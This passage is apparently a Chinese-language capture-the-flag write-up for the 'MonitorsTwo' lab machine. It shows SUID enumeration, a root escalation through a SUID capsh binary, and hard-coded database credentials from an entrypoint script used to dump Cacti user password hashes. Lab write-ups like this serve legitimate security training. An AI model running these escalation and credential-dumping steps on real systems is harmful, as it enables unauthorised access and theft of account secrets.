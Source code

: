 ```bash

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100755/rwxr-xr-x  0      fil   2023-03-21 06:49:05 -0400  .dockerenv
……
```

以及根目录还有个 `entrypoint.sh` 不知道是干啥的。

*以前好像打过关于与docker的，但是完全不记得过程了……*

### SUID提权（不需要）

继续基础信息收集看看，SUID：
```bash
bash-5.1$ find / -perm -4000 -exec ls -l "{}" \; 2>/dev/null
find / -perm -4000 -exec ls -l "{}" \; 2>/dev/null
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-sr-x 1 www-data www-data 16664 May 14 22:03 /tmp/suid
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su
```

有些不咋见到的，比如 `capsh`，在GTFBins搜搜看，发现能利用：
```bash
bash-5.1$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

拿到docker的root权限。

*然后发现自己拿到root权限也不知道要干啥……事前也没太多思路，一心想着提权都是走一步看一步，感觉这个习惯不好啊。*

### 探索DB

想起来根目录还有个 `entrypoint.sh` 文件觉得很可疑，之前由于没有root权限也没怎么看。现在看看脚本似乎是在部署DB？关注到里面有一行 
`mysql --host=db --user=root --password=root cacti -e "show tables"`。运行了一下脚本也确实显示了tables。所以想着应该可以修改这个命令探索 `cacti` 这个DB。

*后来发现这条命令甚至这个脚本其实不用root权限也能执行……因为bash命令设置了root权限的SUID，而mysql命令里直接给了账号密码去连接DB……*

```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change    show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees       policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked     failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb              on      on      on      on      on      2       1       1       1       1       on      -1-1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3 11       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                     on      on      on      on      1       1       1       1       1       on      -1-1               on      0       0       2135691668
```
